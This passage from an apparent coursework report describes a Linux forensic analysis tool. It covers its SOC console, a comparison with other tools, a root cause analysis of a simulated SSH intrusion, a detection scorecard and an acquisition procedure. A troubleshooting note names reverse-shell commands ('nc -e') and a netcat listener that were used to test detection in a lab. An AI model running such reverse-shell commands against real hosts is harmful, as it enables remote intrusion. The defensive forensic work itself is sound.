
*Figure 6.7: Evidence manifest table verifying host environment, timezone (`Asia/Karachi`), and 100% hash parity across cron configurations.*


*Figure 6.8: Evidence manifest continuation verifying integrity across `/etc/shadow`, `/etc/sudoers`, SSH configurations, and user shell histories.*

---

### 6.5 Host Intelligence Breakdown
The analysis engine synthesizes intelligence across accounts, sessions, network sockets, and activity:


*Figure 6.9: Intel summary showing 34 local accounts, 83 sessions, 175 SSH connections, and 3 active listening sockets.*


*Figure 6.10: Intel activity metrics (294 shell history commands, 202 scheduled actions) and Appendix A methodology documentation.*

---

## 7. Central SOC Console & Deep Evidence Explorer

The web-based SOC Ingestion Server provides real-time investigation capabilities on port 8443 (`lfa-dashboard.cmd` or `python -m lfa serve`):


*Figure 7.1: Launching the local LFA Forensic Ingestion & Investigation Server on port 8443.*


*Figure 7.2: Central Ingestion Console displaying global metrics (8 active cases, 64,959 normalized events, 58 high alerts).*


*Figure 7.3: Forensic cases overview showing host IDs, event counts, threat severity badges, and investigation action triggers.*

---

### 7.1 Deep Evidence Explorer
Clicking **🔬 Explore** on `CASE-ENTERPRISE-SIM` opens the interactive query console:


*Figure 7.4: Evidence Explorer search interface with interactive filters for timestamps, event categories, subcategories, and actor accounts.*

#### Core Explorer Capabilities:
1. **Raw Log Line Provenance:** Clicking any event exposes the exact, unmutated log string as it appeared in raw syslog or journald.
2. **Parser Provenance:** Displays the specific parser module and line number that generated the normalized record.
3. **JSON Schema View:** Provides immediate access to the full canonical JSON representation.


*Figure 7.5: Event inspection modal revealing exact raw log lines, actor user, process, and parser provenance.*


*Figure 7.6: Deep inspection of privileged command executions (`sudo apt ...`) with JSON serialization.*

---

### 7.2 Artifact Tree & Threat Matrix Timelines
The explorer integrates a visual file tree of all 152 collected artifacts alongside correlated attack timelines:


*Figure 7.7: Interactive Artifact Tree displaying collected files, SHA-256 hashes, and raw file contents.*


*Figure 7.8: Correlated threat timeline matrix categorized across User Accounts, Privilege Escalation, Persistence, and User Activity.*

---

## 8. Comparative Tool Evaluation (Task 3 Requirement)

In accordance with **Task 3: Cyber Crime Investigation**, the performance of LFA was benchmarked against traditional industry-standard forensic tools:

| Evaluation Criteria | Manual CLI Analysis (`grep`, `awk`, `lastb`) | Traditional Disk Forensics (Autopsy / SleuthKit) | Developed Solution (LFA) |
| :--- | :--- | :--- | :--- |
| **Collection Footprint** | Ad-hoc file copying; pollutes file access timestamps (`atime`). | Full raw disk imaging (slow, transfers hundreds of gigabytes). | **Lightweight in-memory collection (109 files, ~6 MB compressed); zero disk writes.** |
| **Timeline Reconstruction** | Syslog lacks years; manual calculation of date offsets required. | File system metadata timeline (MFT/inodes) but lacks log semantics. | **Automated syslog year inference and unified UTC chronological event stream.** |
| **Threat Detection** | Manual keyword queries; high risk of missing subtle persistence. | Keyword search only; no cross-source correlation rules. | **14 deterministic MITRE ATT&CK correlation rules detecting 47 high-fidelity findings.** |
| **Anti-Forensic Detection** | Cannot detect history wipes or zeroed logs without manual baseline diffs. | Identifies unallocated inodes, but cannot detect backward log timestamps. | **Automated detection of truncated history, zeroed btmp, and timeline inversions.** |
| **Explainability** | Raw text logs only; no prescriptive context. | Basic GUI listings without threat impact analysis. | **Dual-layer findings: 4-question Plain Summary + Exact Forensic Provenance.** |
| **Noise Filtering** | Severe analyst fatigue from benign developer actions (`dev_sarah`). | Displays all noise equally; no concept of corporate baseline. | **Zero false positives against corporate background activity.** |

---

## 9. Root Cause Analysis (RCA) & Investigative Determination

The digital forensic investigation established three primary root causes:
1. **Unprotected Public SSH Ingress:** The host exposed SSH to external networks without connection rate-limiting (`fail2ban`) or mandatory Multi-Factor Authentication (MFA), allowing IP `203.0.113.9` to conduct credential stuffing.
2. **Unenforced Sudo & Privilege Delegation Policies:** Account `kali` possessed unmonitored sudo rights, allowing immediate creation of UID-0 accounts (`sysmon`) and `/etc/sudoers.d` manipulation.
3. **Absence of Endpoint Removable Storage Controls (DLP):** The host lacked udev storage restriction policies, enabling the rogue insider to attach USB media and exfiltrate data undetected by network firewalls.

---

## 10. Engineering Challenges, Troubleshooting & Applied Solutions

During the investigation, several non-trivial engineering challenges arose. Documenting these challenges and their resolutions demonstrates technical problem-solving and guides future analysts:

### Challenge 1: Standalone Attack Script Dependency (`lib.sh: No such file`)
- **Symptom:** Executing `mega_chain.sh` on a standalone VM failed with:
  ```
  mega_chain.sh: 44: .: cannot open /home/ubuntu/Downloads/lib.sh: No such file
  ```
- **Root Cause:** The script originally relied on sourcing shared test helpers from a separate `lib.sh` repository file.
- **Solution:** Inlined all helper functions (`have`, `lab_timeout`, `http_get`, `require_root`) directly into `mega_chain.sh` with safe fallbacks, creating a 100% self-contained runner.

### Challenge 2: Windows Command Prompt Path Syntax Parsing Error
- **Symptom:** Running `start cases/CASE-ENTERPRISE-SIM/report.html` in Windows CMD produced an error:
  ```
  Windows cannot find 'cases/CASE-ENTERPRISE-SIM/report.html'. Make sure you typed the name correctly, and then try again.
  ```
- **Root Cause:** Windows `cmd.exe` built-in `start` interprets forward slashes (`/`) as command-line switches.
- **Solution:** Formatted paths with Windows backslashes (`start cases\CASE-ENTERPRISE-SIM\report.html`) or accessed reports directly via the web dashboard.

### Challenge 3: Console Directory Misattribution (`No DB | Pending`)
- **Symptom:** The Ingestion Console displayed `wsl_enterprise` with `Examiner: Unknown`, `0 Events`, and disabled `[No DB]` buttons.
- **Root Cause:** The server auto-discovers cases by scanning subfolders in `cases/`. Because `cases/wsl_enterprise` held the raw acquisition tarball rather than the parsed database (`CASE-ENTERPRISE-SIM`), it lacked a `case.db`.
- **Solution:** Documented proper evidence separation: raw bundles belong in a dedicated `evidence/` folder outside `cases/`, keeping `cases/` reserved strictly for parsed databases.

### Challenge 4: Network Listener Timeout and Socket Testing
- **Symptom:** Testing reverse-shell network detection rules required active listener sockets without causing host deadlocks.
- **Root Cause:** Unhandled reverse shell commands (`nc -e`) can hang execution if no listener responds.
- **Solution:** Used non-routable documentation subnets (`TEST-NET-2` / `198.51.100.0/24`) with 2-second timeout wrappers, and verified listener socket states in Kali (`ip a s`, `nc -lvnp 4444`).


*Figure 10.1: Verifying IP configuration (`172.21.76.149`) and configuring local netcat listener on port 4444.*


*Figure 10.2: Diagnostic ICMP ping reachability testing to verify network boundary enforcement.*


*Figure 10.3: Command Prompt terminal session resolving command syntax and executing score detection scripts.*

---

## 11. Automated Detection Scorecard & Benchmark Results

The analysis output from `CASE-ENTERPRISE-SIM` was evaluated against ground truth using `tools/score_detection.py`:

```cmd
python tools/score_detection.py --case-dir cases/CASE-ENTERPRISE-SIM --ground-truth testlab/scenarios/mega_chain.ground_truth.json
```

### Benchmark Results:
- **Total Normalized Events:** 62,117
- **Threat Findings Detected:** 47
- **High-Severity Findings:** 27
- **Ground Truth Indicators Covered:**
  - `account_created_and_promoted`: **DETECTED** (High Confidence)
  - `suspicious_process` (C2 Beacon): **DETECTED** (Medium Confidence)
  - `sudoers_tampering`: **DETECTED** (High Confidence)
  - `ld_preload_persistence`: **DETECTED** (High Confidence)
  - `cron_persistence`: **DETECTED** (High Confidence)
  - `ssh_key_injection`: **DETECTED** (High Confidence)
  - `shell_profile_trap`: **DETECTED** (High Confidence)
  - `usb_attachment`: **DETECTED** (Medium Confidence)
  - `insider_activity`: **DETECTED** (High Confidence)
  - `log_truncation`: **DETECTED** (High Confidence)

---

## 12. Standard Operating Procedure (SOP) Quick Reference

For incoming forensic analysts, follow this standardized 5-step operational SOP:

```
[Target Host]              [Evidence Transfer]          [Forensic Workstation]
  collect.sh      ====>      bundle.tar.gz      ====>    lfa.cmd analyse
 (Read-Only)                (SHA-256 Hashed)            (Normalized Events)
                                                                 |
                                                                 v
                                                        report.html & Explorer
```

1. **Live Acquisition (Target Host):**
   ```bash
   sudo sh collector/collect.sh -r / -o /tmp/lfa_evidence -c <CASE_ID> -p "<EXAMINER>" -V -z
   ```
2. **Transfer & Hash Verification:**
   Verify bundle integrity on the examiner workstation:
   ```powershell
   Get-FileHash bundle.tar.gz -Algorithm SHA256
   ```
3. **Ingestion & Correlation:**
   ```cmd
   lfa.cmd analyse <path_to_bundle.tar.gz> --case-dir cases\<CASE_ID> --examiner "<EXAMINER>"
   lfa.cmd verify cases\<CASE_ID>
   ```
4. **Executive Review:**
   ```cmd
   start cases\<CASE_ID>\report.html
   ```
5. **Interactive SOC Deep Dive:**
   ```cmd
   lfa-dashboard.cmd
   # Open browser at http://127.0.0.1:8443
   ```

---

## 13. Conclusion & Investigator Attestation

